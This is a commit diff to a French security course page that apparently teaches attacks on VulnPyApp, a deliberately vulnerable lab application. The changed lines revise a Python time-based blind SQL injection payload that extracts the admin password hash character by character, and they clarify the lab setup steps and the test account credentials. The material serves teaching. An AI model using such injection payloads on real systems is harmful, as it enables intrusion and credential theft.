

Before and after one commit to fabrice1618/security_by_design, a Markdown page: seance1.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
corrections relecture

````diff
--- a/seance1.md
+++ b/seance1.md
@@ -545,13 +545,15 @@ def extract_char_at_position(position):
     """Extrait un caractère du hash MD5 admin à une position donnée"""
     for char in string.hexdigits.lower():
         # SUBSTR(password_hash, position, 1) = char
-        # Si vrai → randomblob(100000000) force un calcul long
+        # Si vrai → WITH RECURSIVE génère 100 000 itérations (délai ~2s sur SQLite)
         # Si faux → réponse immédiate
         payload = (
             f"x%' AND (SELECT CASE WHEN "
             f"(SUBSTR((SELECT password_hash FROM users WHERE email='admin@vulnpyapp.local'),"
             f"{position},1)='{char}') "
-            f"THEN randomblob(100000000) ELSE 0 END)--"
+            f"THEN (WITH RECURSIVE cnt(x) AS "
+            f"(SELECT 1 UNION ALL SELECT x+1 FROM cnt WHERE x<100000) "
+            f"SELECT COUNT(*) FROM cnt) ELSE 0 END)--"
         )
         start = time.time()
         requests.get(url, params={'q': payload})
@@ -1154,20 +1156,27 @@ Rédiger un document `analyse_rgpd.md` contenant :
 
 ### 🏗️ Setup
 
+**Important :** VulnPyApp existe en deux versions :
+- **Branche `student-starter`** : Application volontairement vulnérable avec les 15 vulnérabilités marquées `🚨 VULN #1..#15`. À utiliser pour cette séance.
+- **Branche `main` / `remediated`** : Version sécurisée avec les corrections marquées `✅ FIX #1..#15`. Utilisée en fin de séance pour comparaison.
+
 ```bash
 # 1. Cloner le dépôt (lien fourni par l'enseignant)
 git clone <URL_INSTITUTIONNELLE>/vulnpyapp.git
 cd vulnpyapp
+
+# 2. Sélectionner la branche vulnérable (défaut pour cette séance)
 git checkout student-starter
+# ✅ Vous êtes maintenant sur la version avec 15 vulnérabilités marquées 🚨 VULN #N
 
-# 2. Lancer l'application
+# 3. Lancer l'application
 docker-compose up --build
 
-# 3. Vérifier que l'app est accessible
+# 4. Vérifier que l'app est accessible
 curl http://localhost:5000
 # → Vous devez voir la page d'accueil
 
-# 4. Comptes de test disponibles
+# 5. Comptes de test disponibles
 # alice@vulnpyapp.local / Alice123!  (utilisateur normal)
 # bob@vulnpyapp.local   / Bobby123!   (utilisateur normal)
 # admin@vulnpyapp.local / Admin123! (admin - à découvrir !)
````
Also changed, not shown: quiz1c.md (added, +180 -0 lines), seance2.md (+34 -24 lines).
